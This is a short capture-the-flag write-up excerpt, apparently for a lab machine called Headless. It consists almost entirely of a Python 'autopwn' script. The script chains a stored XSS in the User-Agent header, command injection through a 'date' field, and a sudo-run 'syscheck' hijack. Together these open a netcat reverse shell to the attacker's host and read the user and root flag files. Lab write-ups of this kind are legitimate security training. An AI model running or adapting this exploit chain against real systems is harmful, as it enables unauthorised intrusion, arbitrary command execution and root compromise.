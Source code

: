 ### Autopwn Script

`Crow` and `Yeeb` went down the lane of creating an `autopwn script` lol and there it is!

```c
#!/usr/bin/python3
import requests
import base64
import argparse
from pwn import *

parser = argparse.ArgumentParser(description="Autopwn Headless :-)")

parser.add_argument('--rhost', required=True, help='Remote host IP')
parser.add_argument('--lhost', required=True, help='Local host IP (Your IP)')
parser.add_argument('--lport', type=int, required=True, help='Local port (Your listening port)')

args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport

log.info(f"Listening on port {lport}...")
listener = listen(lport)

cmd = f'cd /dev/shm ; echo "nc {lhost} {lport} -e /bin/bash" > initdb.sh ; chmod 777 initdb.sh ; sudo /usr/bin/syscheck'

encoded_cmd = base64.b64encode(cmd.encode()).decode("utf-8")

payload = f'echo "{encoded_cmd}" | base64 -d | bash'

payload = "<script>fetch('/dashboard',{ headers: { 'Content-Type': 'application/x-www-form-urlencoded' }, method: 'POST', body: 'date=; "+payload+" '})</script>"

headers = {
    'User-Agent': payload,
    'Content-Type': 'application/x-www-form-urlencoded'
}
data = {
    'fname': 'test',
    'lname': 'test',
    'email': 'test@example.com',
    'phone': '123',
    'message': '<script>test</script>',
}

try:
    response = requests.post(f'http://{rhost}:5000/support', headers=headers, data=data, verify=False)
    print("Payload delivered. Wait for the admin bot to trigger the XSS...")
except requests.exceptions.RequestException as e:
    print(f"Failed to deliver payload: {e}")

listener.wait_for_connection()
log.success("Reverse shell received!")

listener.sendline('cat /home/dvir/user.txt')
log.info("User flag:  /home/dvir/user.txt:")
print(listener.recvline(timeout=1).decode())

listener.sendline('cat /root/root.txt')
log.info("Root flag: /root/root.txt:")
```